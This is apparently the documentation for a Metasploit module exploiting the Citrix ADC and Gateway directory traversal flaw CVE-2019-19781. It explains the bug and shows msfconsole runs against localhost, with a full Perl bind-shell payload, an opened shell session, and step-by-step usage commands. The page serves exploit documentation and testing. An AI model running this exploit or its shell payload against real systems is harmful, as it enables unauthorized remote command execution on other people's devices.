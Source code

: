## Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. They allow Directory Traversal.

In resume, when the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the filewrite function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted xml file who use `Perl Template Toolkit` in part of payload.

```
msf5 exploit(linux/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/generic payload at 127.0.0.1:8080
[*] Generated payload: id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

[!] This exploit may require manual cleanup of '/netscaler/portal/templates/mdjLHiHtIYmh.xml' on the target
[!] This exploit may require manual cleanup of '/var/tmp/netscaler/portal/templates/mdjLHiHtIYmh.xml.ttc2' on the target
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/citrix_dir_traversal_rce) > set payload cmd/unix/bind_perl
payload => cmd/unix/bind_perl
msf5 exploit(linux/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/bind_perl payload at 127.0.0.1:8080
[*] Generated payload: perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
[!] No response to GET KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml request
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:51106 -> 127.0.0.1:4444) at 2020-01-13 20:50:45 -0600
[+] Deleted /netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml
[+] Deleted /var/tmp/netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml.ttc2

id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/citrix_dir_traversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
Id  Name
--  ----
0   Python
1   Unix Command
```

## Advanced options

**ForceExploit**

Override check result.

## References

1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
2. <https://www.exploit-db.com/exploits/47901>
3. <https://www.exploit-db.com/exploits/47902>
